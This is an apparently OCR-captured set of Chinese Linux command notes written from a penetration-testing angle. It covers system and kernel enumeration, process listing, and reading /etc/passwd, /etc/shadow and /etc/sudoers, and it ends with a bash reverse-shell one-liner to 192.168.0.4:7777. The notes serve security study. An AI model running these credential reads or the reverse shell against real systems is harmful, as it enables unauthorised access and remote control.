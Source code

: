 用途：启用、禁用网络接口配置

重启network格式：service network restart



**命令：chmod**

用途：权限控制命令

Linux系统下文件权限显示如下图所示，第一个数字，数字代表的意义为：

- – 普通文件
- d 目录
- s socket套接字
- l 软链接
- p 管道
- c 字符设备
- b 块设备

`uname -a`: 此命令可以查看当前Linux系统内核具体版本、使用的发行版版本、以及当前处理器架构!(这里的架构非常重要,大部分针对Linux攻击载荷都需要明确处理器架构才能使用)

存放系统信息的文件

- cat /etc/issue: 连接系统时显示的提示信息,默认一般会存放发行版名称等信息(PS:用户可能会把这个当成备忘录存放一些口令)
- cat /etc/*-release: 详细的发行版系统版本信息(不同的发行版可能名字会略有不同,并且此文件可能有多个,这种情况下我们可以使用通配符*来解决这个问题。ls /etc | grep "release""可以使用此命令来查看你系统中此文件夹具体有哪些!)
- cat /proc/version: 详细的系统内核信息,用于编译内核的gcc的版本以及内核编译的时间。
- cat /proc/sys/kernel/version: 系统内核信息,相当uname -v(/proc/sys/kernel文件夹中可以监视和调整Linux内核中的各种活动!但需要管理员权限!)




进程信息

    ps: 列出本用户当前使用的终端中运行的进程
        ps -elf: 显示详细的(-l)带UID,PPIP,C与STIME栏位(-f)现行终端机下的所有进程(-e)
        ps aux: 已用户为主的格式(u)显示所有用户(a)的所有终端机(x)下的所有进程
    top: 类似Windows的任务管理器

`cat /etc/passwd`: 可以登录系统或其他拥有正在运行的进程的操作系统的用户身份信息

`cat /etc/shadow`: 所有用户的密码安全策略,一般只有超级用户对此文件夹才有访问权限!

`cat /etc/sudoers`: 对权限的分配管理   

`ifconfig -a`: 查看网络、网卡相关信息

`hostname`: 显示、设置系统的主机名称



#### 反弹shell

```
bash -i >& /dev/tcp/192.168.0.4/7777 0>&1
```



### OSI模型
